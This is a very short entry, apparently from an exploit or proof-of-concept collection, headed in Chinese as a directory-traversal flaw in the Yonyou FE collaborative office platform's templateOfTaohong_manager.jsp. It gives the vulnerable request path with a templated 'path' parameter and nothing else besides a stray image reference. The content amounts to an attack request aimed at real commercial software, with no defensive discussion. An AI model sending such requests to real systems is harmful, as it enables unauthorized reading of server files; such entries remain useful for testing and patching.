 ## 用友FE协作办公平台 templateOfTaohong_manager.jsp目录遍历

```
/system/mediafile/templateofTaoHong_manager.jsp?path={{{path}}}
```
